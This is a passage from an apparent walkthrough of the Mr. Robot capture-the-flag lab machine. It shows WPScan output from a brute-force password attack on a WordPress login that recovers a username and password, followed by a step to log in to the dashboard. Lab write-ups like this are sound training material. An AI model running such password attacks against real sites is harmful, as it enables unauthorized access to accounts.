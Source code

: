 ```bash
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <===============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                                                                                                                                                
Trying Elliot / ER28-0652 Time: 00:00:52 <=======================================                                                                                                                       > (4010 / 15461) 25.93%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan 23 22:54:43 2025
[+] Requests Done: 4330
[+] Cached Requests: 4
[+] Data Sent: 1.478 MB
[+] Data Received: 16.271 MB
[+] Memory used: 238.035 MB
[+] Elapsed time: 00:00:57
```

WPScan successfully cracked the password:

- **Username**: Elliot
- **Password**: ER28-0652

### WordPress Dashboard Access

1. Log in to the WordPress admin panel using the cracked credentials.

![Dashboard](/assets/img/bposts/mr-robot-walkthrough/dashboard.png)